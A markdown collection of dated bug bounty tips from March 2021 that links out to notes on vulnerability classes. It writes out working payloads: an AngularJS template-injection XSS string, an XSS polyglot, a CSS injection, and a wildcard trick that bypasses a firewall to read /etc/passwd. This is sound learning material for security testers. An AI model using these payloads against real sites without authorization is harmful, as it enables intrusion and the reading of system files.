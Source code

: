 # Bug Bounty Tips - March 2021

# 📅 01-Mar-2021
## Find Contact details for any sites using this dorks
1. site:site.tld intext:"
@site
.tld"
2. site:site.tld "security" | "admin" | "contact"
3. site:site.tld security.txt
4. /hunter.io
5. check whois for registrar info

## Broken Authentication tip
1. Added user in dashboard made him admin 
2. Remove user and again add same user
**Note :**If user gets admin without promoting then its broken issue.

## Mass Assignment/Auto binding vulnerability
- https://itzone.com.vn/en/article/mass-assignment-vulnerability-and-prevention

![img](https://pbs.twimg.com/media/EvONSJtXUAIQ4Xm?format=jpg&name=small)

# 📅 02-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 60
- [XSLT Injection ](https://twitter.com/harshbothra_/status/1366413262410059777?s=20)

## AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29
```js
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

# 📅 03-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 61
- [Bypassing AWS Policies](https://twitter.com/harshbothra_/status/1366738335218028545?s=20)

# 📅 04-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 62
- [Source Code Review Guidelines](https://twitter.com/harshbothra_/status/1366968601324838912?s=20)

# 📅 06-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 64
- [Hidden Property Abuse (HPA) attack in Node.js](https://twitter.com/harshbothra_/status/1367833358760210434?s=20)

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 65
- [HTTP Request Smuggling in 2020](https://twitter.com/harshbothra_/status/1367935554877202435?s=20)

# 📅 07-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 66
- [Dependency Confusion Attack](https://twitter.com/harshbothra_/status/1368286711038439425?s=20)

# 📅 08-Mar-2021
## m4ll0k Bug Bounty Tools
- https://github.com/m4ll0k/Bug-Bounty-Toolz

# 📅 09-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 67
- [Format String Vulnerabilities](https://twitter.com/harshbothra_/status/1368914428377272320?s=20)

# 📅 10-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 68
- [Mobile Application Dynamic Analysis](https://twitter.com/harshbothra_/status/1369303054777016324?s=20)

## XSS via HTTP Request Smuggling
- https://infosecwriteups.com/exploiting-http-request-smuggling-te-cl-xss-to-website-takeover-c0fc634a661b

# 📅 11-Mar-2021
## Slides from talks
- https://github.com/1ndianl33t/All-in-one_BugBounty_PDF_bundles/blob/master/README.md?s=09

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 69
- [ Insecure Deserialization](https://twitter.com/harshbothra_/status/1369654854612787202?s=20)

## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 70
- [Web Cache Entanglement](https://twitter.com/harshbothra_/status/1369732836266184704?s=20)

## Deserialization Attacks
- https://github.com/kojenov/serial
- https://youtu.be/Y0QxwRyqlh8

## The Best XSS Polyglot! Police cars revolving lightPolice cars revolving light
```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

## Bypass Firewalls
```http
GET /?cc=cat+/etc/passwd

403 Forbidden

GET /?cc=/???/??t+/???/??ss??

200
root:x:0:0:root...

Done bypass firewall
```

# 📅 12-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 71
- [OWASP Amass](https://twitter.com/harshbothra_/status/1370103728473182212?s=20)

# 📅 14-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 72
- [Offensive Javascript Techniques for Red Teamers](https://twitter.com/harshbothra_/status/1370682535680733193?s=20)

## if you can't find a way to get #xss, why not try css payload:

```css
hi"><style>body{display:none}</style>
```

it will make the page disappear if it is vulnerable meanwhile u can use self made custom payloads to bypass filters too!

# 📅 15-Mar-2021
## Learn365 Notes from [Harsh Bothra](https://twitter.com/harshbothra_) Day - 73
- [Basic CMD for Pentesters](https://twitter.com/harshbothra_/status/1370988101057748996?s=20)
